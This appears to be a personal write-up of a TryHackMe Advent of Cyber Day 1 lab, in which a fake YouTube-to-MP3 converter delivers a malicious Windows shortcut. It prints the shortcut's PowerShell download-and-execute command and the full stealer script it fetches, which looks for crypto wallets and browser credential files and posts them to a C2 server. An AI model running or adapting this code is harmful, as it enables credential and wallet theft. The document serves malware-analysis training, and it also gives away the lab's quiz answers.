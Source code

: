 # Advent of Cyber Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?
This task was dealing with OPSEC (Operational Security). You, as an investigator, have decided to dig into the YouTube-to-MP3 converter other SOC-mas organizers have been sharing.

## Why are we investigating the converter?
They can be used to deliver malicious software and be used for phishing credentials or other sensitive information. 

## Where to start?
1. Start the machine that was created for this challenge.
2. Navigate to the IP address generated if you are on the attack box. It will take you to the converter.
3. Using the link provided in the challenge https[:]//www[.]youtube[.]com/watch?v=dQw4w9WgXcQ which I have defanged is the YouTube video that have been suggested to use.
4. Choose either file extensions (it honestly doesn't matter which) and download the file and extract it.

## What to do next?
Navigate to where the file downloaded and run the `file` command like this `file song.{mp3|mp4}` This command out puts information on what the file "looks" like to the system. 

This is the "normal" file. As you can see it shows that it is in fact an `Audio file with ID3 version 2.3.0`.
![file_cmd_thm_aoc_d1](https://github.com/user-attachments/assets/17505b04-792a-4611-9115-489ce8b17ad4 "file command output from the THM AoC DayOne")

However, when you run the same `file` command on the other super sneaky downloaded "mp3" using `file somg.{mp3|mp4}` you get this:

![file_somg_thm_aoc_d1](https://github.com/user-attachments/assets/a3a1ef38-6c3a-4bbc-8d67-984f199c3b08 "file command output from the bad file")

You can see that the file is not a media file but a `MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments` aka `.lnk` file. This is malicious. 

### Let's inspect this malicious file (Question 1 can be answered by something in this output)

If you are using the TryHackMe machines, all the tools needed are alreay installed. If not, you'll want to install `exiftool` using your operating systems preferred install method.

Using the command `exiftool somg.{mp3|mp4}` you get this out put in your terminal:
```
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```
Those are PowerShell (PS) commands. What they do are:
1. The `-ep Bypass -nop` flag disables the usual restrictions PS has and allows scripts (instructions in code) to run without interference.
2. The `DownloadFile` method downloads a file (a `IS.ps1` file) from the remote server `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` and saves it in the `C:\\ProgramData\\ directory.
3. As soon as it is downloaded, the script gets executed in PowerShell using the `iex` command and triggers the downloaded `s.ps1` file.

**If you want you can look at the file, please don't use a windows device to do this as it will run and execute. Please don't bork your device.**

The file looks like this:
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

If you look through the file contents, theres something that is really interesting. It seems as though this file is ET and is phoning home to a C2 (command and control) server. The url answers question 2.

## Where did this come from and where does it go??
In the file you can see `Created by the one and only M.M.`, but who is that? You can search for that string on GitHub (GH) by using this url `https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues`. If you get an error about rate limiting, you can either log in using your own GH account or try later. You can infer who M.M. is by the information on the comment that comes up (this answers question 3) and you can see how many times this repo has been committed to (this answers question 4). 

## Let's wrap this day up
Once you answer questions 1-4, the other two question are a given. If you want to, you can checkout the [OPSEC](https://tryhackme.com/r/room/opsec) room to learn more about it. 

# CONGRATULATIONS!!!!
You have finished Day 1 of TryHackMe's Advent of Cyber!!! 🎉🎉🎉🎉🎉🎉🎉🎉🎉


